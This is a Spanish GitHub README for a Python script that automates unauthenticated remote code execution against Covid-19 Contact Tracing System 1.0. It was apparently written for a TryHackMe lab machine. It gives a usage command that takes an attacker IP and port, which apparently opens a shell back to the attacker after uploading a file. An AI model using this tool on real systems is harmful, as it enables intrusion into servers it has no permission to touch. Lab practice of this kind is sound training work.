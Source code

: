 # Covid19 Contact Tracing System 1.0 (Unauthenticated RCE)
Este es un exploit que use y mejoré para la máquina Lockdown de TryHackMe, te automatiza practicamente toda la intrusión mediante la subida de un fichero a la máquina. Para esto, obviamente la aplicación debe trabajar con el Contact Tracer, "Covid-19 Contact Tracing System 1.0".

## Motivos de la creación
* Practicar Python3 
* Hacer un script autopwn

## Instalación y uso
```bash 
$ git clone
$ cd Covid19-Contact-Tracing-System-1.0/
$ chmod +x covid19_contacttracer.py
$ python3 covid19_contacttracer.py <attacker-ip> <attacker-port> <target-ip>
```
## Créditos
* **Exploit v1**: https://www.exploit-db.com/exploits/49604

**Nota:** si tienes propuestas para mejorar este script o cambiar cosas, hazmelas saber por favor... me ayudarías mucho ❤.
